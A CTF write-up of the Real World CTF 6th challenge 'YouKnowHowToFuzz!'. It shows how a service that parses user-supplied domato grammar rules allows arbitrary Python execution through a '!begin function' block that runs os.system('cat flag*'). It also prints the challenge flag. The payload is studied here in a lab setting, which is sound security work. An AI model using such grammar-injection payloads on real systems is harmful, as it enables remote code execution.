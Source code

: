 ```yaml
---
title: 'Real World CTF 6th'
challenge: 'YouKnowHowToFuzz!'
date: 2024-01-28T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the challenge YouKnowHowToFuzz! of the Real World CTF 6th' 
cover: '/img/RealWorldCTF_6th/logo.png'
tags: ['misc']
draft: false
---
```


```
I like eat domato, it's excellent for dom fuzz, try to use your rule!

nc 47.251.60.74 9999
```

### Quick look

The challenge attachment includes a Dockerfile that builds a container containing the DOM fuzzer [domato](https://github.com/googleprojectzero/domato)

```Dockerfile
FROM ubuntu:22.04 AS base

RUN apt-get clean && \
    apt-get update && \
    apt-get install -qy git && \
    git clone https://github.com/googleprojectzero/domato /domato

# [...]
```

Then, the container was configured to execute the following script:

```python
#!/usr/local/bin/python3
from grammar import Grammar

print("define your own rule >> ")
your_rule = ""
while True:
    line = input()
    if line == "<EOF>":
        break
    your_rule += line + "\n"

rwctf_grammar = Grammar()
err = rwctf_grammar.parse_from_string(your_rule)

if err > 0:
    print("Grammer Parse Error")
    exit(-1)

rwctf_result = rwctf_grammar._generate_code(10)
with open("/domato/rwctf/template.html", "r") as f:
    template = f.read()

rwctf_result = template.replace("<rwctf>", rwctf_result)

print("your result >> ")
print(rwctf_result)
```

One detail catch my attention in the Dockerfile:

```Dockerfile
# [...]

COPY flag /flag

RUN mkdir /srv/app && \
    mv /flag /srv/app/flag_$(md5sum /flag | awk '{print $1}')

```

This implies that the flag is initially copied to the `/` directory and then renamed with an unpredictable name. Does this suggest that **Remote Code Execution** (*RCE*) is required?

### Vulnerability

Based on the challenge description and the provided code, it became evident that we needed to craft a valid rule in **domato**. My strategy was to refer to the fuzzer's documentation. There, I discovered two approach:

- Use `!include`: This expression allows the reading of arbitrary files and is triggered by the verbose error `Error parsing line: {line of the file}`.
- Use `!begin function`: This expression enables the inclusion of Python code but requires a valid rule.

Leveraging the documentation examples, I successfully created a valid rule. It's worth noting that the **Local File Inclusion** (*LFI*) approach proved futile as we lacked information about the flag's name, which was intentionally made unguessable.

```
!begin function pwn
  import os
  os.system("cat flag*")
  ret_val = "pwned"
!end function

!begin lines
<new naslab> = <call function=pwn>
!end lines
```

The result of the **system** function call will be printed to **stdout**, and we will obtain the flag.

> rwctf{it_is_a_boring_chall_about_domato_rce_20240126rwctf}
